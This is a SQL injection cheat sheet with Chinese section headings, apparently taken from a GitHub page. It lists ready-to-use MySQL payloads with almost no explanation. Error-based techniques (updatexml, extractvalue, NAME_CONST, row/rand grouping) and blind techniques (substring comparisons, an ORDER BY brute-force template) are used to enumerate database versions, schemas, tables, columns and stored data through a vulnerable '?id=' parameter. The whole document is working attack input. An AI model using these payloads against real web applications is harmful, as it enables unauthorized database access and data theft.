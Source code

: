  ##### 基于报错注入
  	MySQL >= 4.1
	(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
	'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
	UpdateXML 函数
	AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
	
	' and updatexml(null,concat(0x0a,version()),null)-- -
	' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
	Extractvalue函数
	MySQL >= 5.1
	?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
	NAME_CONST函数
	MySQL >= 5.0
	?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
	?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
	?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
 ##### 盲注
 ###### substring
	?id=1 and substring(version(),1,1)=5
	?id=1 and right(left(version(),1),1)=5
	?id=1 and left(version(),1)=4
	?id=1 and ascii(lower(substr(Version(),1,1)))=51
	?id=1 and (select mid(version(),1,1)=4)
	?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
	?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'

 ###### ORDER BY
	[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS / CONDITIONS]) THEN [ONE COLUMN TO ORDER BY] ELSE [ANOTHER COLUMN TO ORDER BY] END)); -- -
